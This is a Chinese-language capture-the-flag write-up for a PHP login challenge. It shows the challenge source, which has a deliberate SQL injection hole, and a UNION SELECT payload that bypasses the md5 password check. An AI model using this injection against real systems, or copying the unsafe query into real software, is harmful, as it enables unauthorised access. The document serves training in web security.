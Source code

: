 # SQL INJECTION 2

## 题目

> http://4.chinalover.sinaapp.com/web6/index.php
>
> ```php+HTML
> <html>
> <head>
> Secure Web Login II
> </head>
> <body>
> 
> <?php
> if($_POST[user] && $_POST[pass]) {
>    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
>   mysql_select_db(SAE_MYSQL_DB);
>   $user = $_POST[user];
>   $pass = md5($_POST[pass]);
>   $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
>   if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
>       echo "<p>Logged in! Key: ntcf{**************} </p>";
>   }
>   else {
>     echo("<p>Log in failure!</p>");
>   }
> }
> ?>
> 
> 
> <form method=post action=index.php>
> <input type=text name=user value="Username">
> <input type=password name=pass value="Password">
> <input type=submit>
> </form>
> </body>
> <a href="index.phps">Source</a>
> </html>
> ```

## 解答思路

1. `strcasecmp`比较两个字符串是否相等，如果相等，则返回0，不相等则返回非0值；
2. php源码要求查询出的pw值和传入的pw值相等，所以，需要将原sql语句的返回值改为与传入的pw值相等，所以，需要将原结果清空，然后使用union select返回自己想要的值


## 解题步骤

1. 在hackbar中提交post数据：

   ```mssql
   user=admin' and 1=2 union select md5(1)%23&pass=1
   ```

   得到flag

## 漏洞挖掘思路

- todo

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5 collision`
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串


